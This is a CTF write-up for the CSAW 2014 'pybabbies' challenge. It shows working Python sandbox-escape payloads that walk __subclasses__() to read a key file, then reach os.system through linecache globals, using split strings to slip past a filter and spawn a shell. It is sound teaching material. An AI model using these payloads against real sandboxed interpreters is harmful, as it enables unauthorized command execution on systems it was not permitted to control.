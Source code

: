 ## CSAW CTF 2014
# Exploit 200 : pybabbies

![question]{img/qn.png}

You are provided a python file

This challnege basically revolves around this vulnerability https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/

Basically, a global variable "__builtins__" is initialized everytime python execution begins. This variable can potentially bypass filters and gain access to sensitive commands like "eval" or "openfile"

After some trial and error, I issued the following command to the program

>  print(().__class__.__bases__[0].__subclasses__()[40]("./key.txt").read())

![01](img/01.png)

It responded with

```
ALL YOUR FLAG ARE BELONG TO US. FIND WHERE I MOVED IT TO =)
catch_warnings = ().__class__.__base__.__subclasses__()[59]
linecache = catch_warnings.__enter__.__func__.__globals__['linecache']
o_s = linecache.checkcache.__globals__['o'+'s']
s_h = o_s.__dict__['sy'+'stem']('sh')
```

Take note of the last line, seems like its possible to open a system shell

Based on that, I issued the following command

> print(().__class__.__base__.__subclasses__()[59].__enter__.__func__.__globals__['linecache'].checkcache.__globals__['o'+'s'].__dict__['sy'+'stem']('sh'))

and I got a shell!! After that just do a "ls" and "cat" the flag out

![02](img/02.png)

Flag is **flag{definitely_not_intro_python}**